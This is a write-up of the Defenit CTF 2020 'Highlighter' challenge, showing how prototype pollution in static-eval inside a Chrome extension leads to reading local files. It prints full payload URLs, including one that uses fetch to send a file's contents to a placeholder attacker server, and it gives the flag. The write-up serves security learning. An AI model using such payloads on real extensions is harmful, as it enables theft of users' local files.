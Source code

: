 # Highlighter
*Defenit CTF 2020 - Web ???*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Do you like the Chrome extension?
I made a tool to highlight a string through this.
Use it well! :)

## `static-eval` prototype pollution

After hard fighting with `background.js`, I noticed it has a function that acts as `eval`, but **safely**. With some google searches, we can find it's `static-eval` of node.

Also, we can find **very** interseting [blog post](https://blog.p6.is/bypassing-a-js-sandbox/) about prototype pollution in `static-eval`, written by p0six who is a publisher of this problem.

## `.split()`

With prototype pollution, we overwrote `String.split` which is called by `onMessage` after `static-eval`. At first, we succeed to make `alert(1)` in **chrome extension**, not in user content (It's important).

```
http://highlighter.ctf.defenit.kr/read?id=84#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[alert(1)]:1}};});
```

## `file://`

When we looked `manifest.json`, there are host permissions over all `http://*/*`, `https://*/*`, and `file://*/*`. These host permissions allows chrome extensions to make a request without cross origin restrictions. Thus, when we can evaluate javascript code in **Chrome extension**'s side, we can read local file.

## `file:///`

However, according to `docker-compose.yml`, we have to know where the flag is at first. Since chrome supports directory listing in file scheme, thus just making a request to `file:///` give an index page of the root directory, and we can know a name of folder.

## Exploitation

1. Pollute prototype using vulnerability of `static-eval`
2. Overwrite `.split()` function to fetch local file, and send it to our server
3. Read `file:///` first, then `file://{secret}/flag`.

## Payload

```
http://highlighter.ctf.defenit.kr/read?id=2#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[(function(){var/**/r=new/**/XMLHttpRequest();r.open('GET','file:///6339e914b333b35d902a2dfd2c415656/flag',false);r.send();r.responseText;fetch('http://{our server}/'+btoa(r.responseText));})()]:1,'zxcv':'1'}};})
```

**`Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}`**
